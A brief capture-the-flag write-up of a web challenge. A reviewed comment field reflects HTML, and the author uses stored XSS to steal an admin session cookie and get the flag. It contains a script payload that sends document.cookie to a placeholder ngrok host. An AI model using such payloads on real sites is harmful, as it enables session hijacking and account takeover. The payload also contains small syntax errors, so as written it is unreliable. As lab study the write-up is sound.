 #xss #cookie #cross-site
The main page is a login page that looks like this:
![[Pasted image 20230622234332.png]]

By signing up we get this post and a bar that we can comment to:
![[Pasted image 20230622234511.png]]

the comment needs to be reviewed it says when we comment:
![[Pasted image 20230622234859.png]]

it is also reflected in the source code as it is:
![[Pasted image 20230622234936.png]]

can we try html to it?
![[Pasted image 20230622235024.png]]
and it works!!!!! 
so basically what I think is to get admin level cookie or something from the server via XSS , the actual impact of XSS what we can do is to be done here
so let's fire up our server and redirect the request to it:
first we start our python web server locally and then tunnel it via ngrok:
the url looks like this:
```js
<script>new image().src='https://your-ngrok-server-link.ngrok-free.app?c='+document.cookie</script>`
```
![[Pasted image 20230623001239.png]]
and we get the cookie 
the first one is ours the 2nd one is of admin
and by setting the cookie we get the flag:
![[Pasted image 20230623001121.png]]